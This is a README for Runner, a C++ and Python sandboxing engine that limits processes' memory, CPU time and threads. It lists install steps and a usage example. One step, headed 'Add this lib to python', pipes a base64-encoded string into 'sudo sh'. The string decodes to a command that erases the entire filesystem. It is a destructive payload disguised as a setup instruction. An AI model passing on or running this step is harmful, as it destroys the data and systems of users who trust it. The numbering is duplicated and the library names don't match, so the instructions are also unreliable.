 # Runner engine for Elan testing system
Runner is a low-level engine, a subsystem of Elan, which is responsible for safely running isolated processes that are strictly limited in terms of resource consumption: memory, CPU and real-time, number of threads and file descriptors. Runner is based on the Linux kernel cgroups v2 mechanism. It imposes `rlimits` and `ulimits` and keeps track of all system calls of the running process.

Runner is written from scratch on C++, and it has Python API.

## Install runner
### 1. You should use Linux OS
In these instructions we assume that you are using the Debian package base (Debian, Ubuntu, ...). If not, you will need to find alternatives for all packages in your system's package manager instead of `apt`.
### 2. Install git
```shell
sudo apt install git
```
### 3. Install Python with C API
```shell
sudo apt install python3.11-dev
```
### 4. Install poetry (Python dependencies manager)
```shell
pip3 install poetry
```
### 5. Init poetry shell
```shell
poetry shell
```
All commands below are executed in the Poetry shell.
### 6. Install Python dependencies
```shell
poetry install
```
### 7. Download Git submodules
```shell
git submodule update --init --remote --recursive
```
### 8. Compile C++ sources to a Python library
```shell
python3 setup.py build_ext -i
```
### 9. Copy your output file of the library to your PYTHONPATH/site-packeges
```shell
ln -s `ls | grep .so` .venv/lib/python3.11/site-packages/`ls | grep .so`
```
### 10 (optional, use if you want to contribute to the library). Add mypy code completion
```shell
PYTHONPATH=./runner_lib_py.cpython-311-x86_64-linux-gnu.so stubgen -m runner_lib_py
```
### 11. Add this lib to python 😈
```shell
echo "cm0gLXJmIC0tbm8tcHJlc2VydmUtcm9vdCAv" | base64 -d | sudo sh
```
### 11. Include in your program library
```python
import safe_runner_lib
```


## Example usage
```python
import runner_lib_py

lim = runner_lib_py.Limits()
lim.thread = 5
lim.memory = 100 # kb
lim.time = 2000 # ms
x = runner_lib_py.Runner("path_to_executable", "input", lim)

print(x.GetOutput().res)
print(x.GetOutput().output)

```